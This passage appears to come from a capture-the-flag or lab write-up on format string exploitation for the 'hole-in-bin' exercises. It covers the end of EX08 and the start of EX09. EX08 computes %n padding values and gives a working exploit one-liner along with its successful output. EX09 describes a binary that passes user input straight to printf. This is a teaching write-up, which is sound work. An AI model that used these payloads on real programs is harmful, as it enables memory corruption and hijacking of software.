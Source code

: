 `to_write` is the number we want written to a byte, for example 44 (last byte of the needed value) and `written` is the number of bytes that have been written by the format string function so far. `calculate(0x44, 0x6F)` gets us 213. When I first wrote 4 bytes to target I got `5f` for each byte, adding 16 to that (`\x01\x01\x01\x01\ * 4 bytes`) you get `6F`

We calculate and use the correct padding values to precisely set target to 0x01025544.

```py
calculate(0x44, 0x6F) # 213
calculate(0x55, 0x44) # 17
calculate(0x02, 0x55) # 173
calculate(0x01, 0x02) # 255
```

Final:

```sh
python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%213u%n%17u%n%173u%n%255u%n'" | ./bin
```

```sh
user@hole-in-bin:~/hole-in-bin/ex08$ python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%213u%n%17u%n%173u%n%255u%n'" | ./bin
b788e500.bfc88274.b786e000.0.0.bfc88238.804849d.bfc88030.200.b786ec20.b788a328.                                                                                                                                                                                                             16843009         16843009                                                                                                                                                                     16843009                                                                                                                                                                                                                                                       16843009
you have modified the target :)
```

-   ## EX09

### Objective

This level is completed when you see the “code execution redirected!” message.

### Binary functionality

After executing the binary it waits for user input and then prints whatever input is supplied.

### Process and solution

Main function again only calls `vuln` function.

![img](https://i.imgur.com/pTCuSmy.png)

The vuln function reads up to 512 bytes of user input into a stack-allocated buffer and then prints this input using printf. After printing, it exits the program with a status code of 1. The function is vulnerable to format string attacks due to the unsafe use of printf with user-supplied data.

